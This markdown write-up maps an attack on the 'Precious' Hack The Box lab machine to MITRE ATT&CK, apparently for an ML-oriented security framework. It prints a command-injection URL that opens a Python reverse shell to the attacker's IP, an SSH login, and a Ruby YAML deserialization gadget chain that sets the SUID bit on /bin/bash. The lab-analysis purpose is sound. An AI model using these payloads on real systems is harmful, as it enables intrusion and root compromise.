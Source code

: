 # Cyber4ML_Framework application in "Precious" HTB machine.

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.27|10.10.11.189|

## Documentation

Documentation of the attack: [Precious Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Precious/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command |
| - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) |
| Execution | Exploitation for Client Execution | Unix Shell | (1) |
| Persistence | Valid Accounts | Default Accounts | (2) |
| Privilege Escalation | Exploitation for Privilege Escalation | - | (3) |

#### Commands
- (1)
```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
- (2)
```
ssh henry@10.10.11.189
```
- (3)
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve
```

## Network Analysis

Pcap file of the attack:

## Log Analysis
